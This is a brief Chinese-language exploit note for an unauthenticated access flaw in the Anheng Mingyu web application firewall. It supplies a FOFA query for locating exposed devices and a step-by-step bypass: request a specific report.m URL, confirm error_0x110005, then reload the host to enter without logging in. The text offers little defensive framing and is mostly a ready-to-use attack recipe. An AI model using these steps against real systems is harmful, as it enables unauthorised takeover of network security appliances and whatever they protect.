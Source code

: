 ## FOFA

```
app="安恒信息-明御WAF"
```

## 漏洞利用

访问 https://{{Hostname}}/report.m?a=rpc-timed

若返回 error_0x110005，则存在漏洞

重新访问该域名，即可未授权进入 

https://{{Hostname}}